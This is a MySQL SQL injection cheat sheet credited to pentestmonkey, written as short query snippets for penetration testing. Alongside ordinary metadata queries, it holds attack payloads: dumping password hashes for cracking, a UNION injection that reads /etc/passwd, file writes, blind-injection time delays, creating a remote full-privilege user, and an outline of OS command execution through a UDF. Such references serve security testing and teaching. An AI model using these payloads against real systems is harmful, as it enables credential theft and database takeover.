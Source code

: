 # MYSQL Injection Cheat Sheet

_source: [http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)_

## Version
```
SELECT @@version
```

## Comments
```
SELECT 1; #comment
SELECT /*comment*/1;
```

## Current User
```
SELECT user();
SELECT system_user();
```

## List Users
```
SELECT user FROM mysql.user; — priv
```


## List Password Hashes
```
SELECT host, user, password FROM mysql.user; — priv
```


## Password Cracker
```
John the Ripper will crack MySQL password hashes.
```


## List Privileges
```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns
```


## List DBA Accounts
```
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv
```


## Current Database
```
SELECT database()
```

## List Databases
```
SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0
SELECT distinct(db) FROM mysql.db — priv
```

## List Columns
```
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

## List Tables
```
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

## Find Tables From Column Name
```
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; — find table which have a column called 'username'
```

## Select Nth Row
```
SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0
SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0
```

## Select Nth Char
```
SELECT substr('abcd', 3, 1); # returns c
```

## Bitwise AND
```
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

## ASCII Value -> Char
```
SELECT char(65); # returns A
```

## Char -> ASCII Value
```
SELECT ascii('A'); # returns 65
```

## Casting
```
SELECT cast('1′ AS unsigned integer);
SELECT cast('123′ AS char);
```

## String Concatenation
```
SELECT CONCAT('A','B'); #returns AB
SELECT CONCAT('A','B','C'); # returns ABC
```

## If Statement
```
SELECT if(1=1,'foo','bar'); — returns 'foo'
```

## Case Statement
```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

## Avoiding Quotes
```
SELECT 0×414243; # returns ABC
```

## Time Delay
```
SELECT BENCHMARK(1000000,MD5('A'));
SELECT SLEEP(5); # >= 5.0.12
```

## Make DNS Requests
```
Impossible?
```


## Command Execution
```
If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.
```

## Local File Access
```
…' UNION ALL SELECT LOAD_FILE('/etc/passwd') — priv, can only read world-readable files.

SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system
```

## Hostname, IP Address
```
SELECT @@hostname;
```

## Create Users
```
CREATE USER test1 IDENTIFIED BY 'pass1'; — priv
```

## Delete Users
```
DROP USER test1; — priv
```

## Make User DBA
```
GRANT ALL PRIVILEGES ON *.* TO test1@'%'; — priv
```

## Location of DB files
```
SELECT @@datadir;
```

## Default/System Databases
```
information_schema (>= mysql 5.0)
mysql
```